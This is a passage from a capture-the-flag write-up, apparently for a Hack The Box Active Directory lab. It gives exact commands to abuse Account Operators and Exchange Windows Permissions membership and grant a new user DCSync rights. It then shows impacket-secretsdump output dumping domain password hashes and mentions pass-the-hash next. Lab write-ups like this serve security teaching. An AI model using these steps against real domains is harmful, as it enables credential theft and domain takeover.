 As we are a member of the _Account Operators_, we can create a user in the _Exchange Windows Permissions_ Group to abuse the **WriteDacl** permission that this group has over the entire domain.

With **WriteDacl** we can do attacks such as **DCSync**. Let's go step by step:

1. We create the user **s3ntinl** and add it to the _Exchange Windows Permissions_ Group.
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net user s3ntinl s3ntinl123! /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> net group "Exchange Windows Permissions" s3ntinl /add
The command completed successfully.
```

2. Grant DCSync Privileges to **s3ntinl**:
> Remember to import **powerview.ps1** if you haven't already
```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $SecPassword = ConvertTo-SecureString 's3ntinl123!' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\s3ntinl', $SecPassword)

*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./powerview.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity s3ntinl -Rights DCSync
```

3. Abuse the **DCSync** with `impacket-secretsdump`:

```bash
┌──(s3n㉿kali)-[/opt/tools]
└─$ sudo impacket-secretsdump 'htb.local'/'s3ntinl':'s3ntinl123!'@'10.10.10.161'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::

...

[*] Cleaning up... 
```

Nice! We managed to dump all the hashes. Now we can abuse SMB with `impacket-psexec` and do a PassTheHash.

>In a PtH attack, an attacker uses the NTLM hash of a user’s password to authenticate without knowing the actual password.
PsExec supports this by leveraging Windows’ ability to authenticate via NTLM hashes when interacting with services like SMB.
